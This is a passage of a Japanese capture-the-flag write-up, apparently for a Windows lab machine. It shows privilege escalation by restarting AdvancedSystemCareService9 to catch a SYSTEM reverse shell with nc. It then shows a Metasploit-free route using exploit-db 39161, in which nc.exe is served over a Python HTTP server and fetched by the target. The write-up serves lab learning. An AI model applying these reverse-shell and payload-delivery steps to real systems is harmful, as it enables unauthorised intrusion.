 以下のコマンドで AdvancedSystemCareService9 をリスタートします

```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

これで root が取れました

```
root@kali:~# nc -lnvp 1111
listening on [any] 1111 ...
connect to [10.10.245.227] from (UNKNOWN) [10.10.93.43] 50263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

## metasploitなしで攻略してみる
同じものですが、以下の exploit を使います
https://www.exploit-db.com/exploits/39161

以下の writeup が役立ちそうです（Hack the Box の wruteup です）
https://medium.com/@ranakhalil101/hack-the-box-optimum-writeup-w-o-metasploit-3a912e1c488c

```
root@kali:~# locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
root@kali:~# cp /usr/share/windows-resources/binaries/nc.exe ./
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```
root@kali:~# nc -lnvp 1112
listening on [any] 1112 ...
```

shell1 と shell2 で待ち受けて実行します

```
root@kali:~# python exploit.py 10.10.93.43 8080
root@kali:~# python exploit.py 10.10.93.43 8080
```
（複数回実行が必要です）



```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.93.43 - - [30/Apr/2020 15:40:02] "GET /nc.exe HTTP/1.1" 200 -

```
